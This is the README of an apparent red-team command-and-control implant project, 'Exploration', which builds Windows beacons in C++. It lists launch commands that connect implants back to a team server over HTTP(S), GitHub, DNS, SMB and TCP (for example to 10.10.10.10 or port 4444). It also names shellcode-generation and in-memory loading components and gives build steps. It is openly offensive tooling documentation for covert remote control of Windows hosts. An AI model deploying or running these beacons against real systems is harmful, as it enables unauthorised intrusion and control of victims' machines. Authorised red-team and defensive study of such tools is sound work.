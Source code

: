 # Exploration C2 Implant

## What it is

Exploration is a rudimentary redteam Command and Control framework.  
This repository contain the Beacon in C++ to target windows.  
The TeamServer and Client can be found in [C2TeamServer](https://github.com/maxDcb/C2TeamServer).  

This project contains multiple beacon communicating with the TeamServer thought different means, here is some example:

```
# HTTP/HTTPS
BeaconHttp.exe IP_TEAMSERVER PORT_LISTENER http/https
BeaconHttp.exe 10.10.10.10 8443 https
BeaconHttp.exe 10.10.10.10 8080 http

# Github
BeaconGithub.exe user/project TOKEN
BeaconGithub.exe maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# Dns
BeaconDns.exe DNS_SERVER DOM_TEAMSERVER
BeaconDns.exe 8.8.8.8 bac.superdomain.com

# Smb
BeaconSmb.exe PIPE_NAME
BeaconSmb.exe pipename2

# Tcp
BeaconTcp.exe IP_LISTENER PORT_LISTENER
BeaconTcp.exe 127.0.0.1 4444
```

## Build 

### Sumbodule & External Projects:  

* [Donut](https://github.com/TheWover/donut): Creat shellcode from PE files.  
* [CoffLoader](https://github.com/trustedsec/COFFLoader): Run object files from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [MemoryModule](https://github.com/fancycode/MemoryModule): Load DLL at runtime.
* [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell): Powershell for unmanager code.
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): base64.
* [json](https://github.com/nlohmann/json): json parser.

### Build the Windows Beacons and Modules

* https://chocolatey.org/install
* choco install cmake --pre 

git submodule update --init   
mkdir buildWindows  
cd buildWindows 


#### Windows x64

with "x64 Native Tools Command Prompt for VS":  
cmake .. --preset default
msbuild .\C2Implant.sln /property:Configuration=Release -m  
or  
compile the generated C2.sln in release with Visual studio (config Runtime Library Multi-threaded (/MT) & Release)   


#### Windows x86

cmake  -G "Visual Studio 17 2022" -DCMAKE_PROJECT_TOP_LEVEL_INCLUDES=../conan_provider.cmake -A "Win32" ..   
msbuild .\C2Implant.sln /property:Configuration=Release /p:Platform=Win32 -m  


#### Production

Beacons are in: "Release\Beacons"  
Modules DLL in: "Release\Modules"   




